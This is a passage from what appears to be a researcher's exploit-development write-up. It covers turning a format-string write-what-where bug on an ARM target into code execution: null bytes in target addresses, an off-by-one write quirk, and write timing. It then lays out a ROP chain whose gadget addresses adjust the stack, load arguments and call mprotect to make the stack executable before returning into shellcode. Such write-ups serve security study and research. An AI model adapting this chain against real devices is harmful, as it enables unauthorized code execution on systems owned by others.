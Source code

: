 - Since everything was being calculated on the fly, it was possible for some of the addresses being written to to end up with null bytes. It was necessary to identify this prior to writing and prepend the shellcode with gadgets to "jump" over nulls
- For some reason, the second request to write would always write just one byte less, but the rest would then go back to normal??? Since all the padding math is done from the "base value" formula, this was annoying
- If a request writing shellcode would write looooots of bytes, sometimes I'd need to wait close to five seconds before I could send the next request to make sure the memory wrote successfully. 


Five seconds!!!! Writing eight bytes at a time?!?! It was a nightmare.

Once I had a reliable padding calculator though, I was able to identify and fix the other weird issues, fringe cases, etc, and consistently write whatever I wanted, wherever I wanted. This just left the rop chain, which also needed to adhere to the above restrictions and similarly held many annoyances. The final chain ended up being nice and simple, as they always are, and required the use of only four gadgets. 

Since I could write whatever bytes I wanted as format string padding, the only bad characters I had to look out for would be in the target addresses themselves, rather than the shellcode. This made things way simpler as I could just perform an initial stack adjustment if I landed in a location with shellcode longer than the distance to a null. 

For instance, if I landed in a low byte of 0xC0, I'd have 0x40 bytes before a null is encountered, at 0x100. With the rop chain 0x28 bytes itself, that would leave only 0x18 bytes left for shellcode, far too small for the entire payload. That's an easy fix though, just shift the initial buffer to like, 0x100 and write there.

Since I had a write-what-where, I didn't have to perform any gadget-fu to get the registers to contain the right values, I could just write the values directly to the stack and use appropriate pops to get them in the right locations, this made the actual rop a breeze.

Final write (start of chain):
```
# Stack adjust 0x328C bytes
0x00036928: add sp, sp, #0x1000; pop {r4, r5, pc};
0x00042ad4: add sp, sp, #0x28c; add sp, sp, #0x2000; pop {r4, r5, r6, r7, pc};
```

Chain:
```
# Null-byte fix from landing in 0xC0
0x00051024: add sp, sp, #0x34; pop {r4, r5, r6, r7, pc};
+0x48

# Pop in addresses for mprotect and call
0x00033e48: pop {r0, r1, r2, r3, r4, pc};
stackBaseLocation # r0 - address
0x00021000 # r1 - size
0x00000007 # r2 - protection
0x00000000 # extraneous
0x00000000 # extraneous
libcBaseAddress + 92000 + 4 # pc - mprotect (+4 to avoid function prologue)

# mprotect Epilogue
0x00000000 # mprotect <+40>:    pop     {r3, r4, r7, pc}
0x00000000 # 
0x00000000 # 
targetBuffer + len(rop) + null fix offset # mprotect returns into shellcode
[...]
```
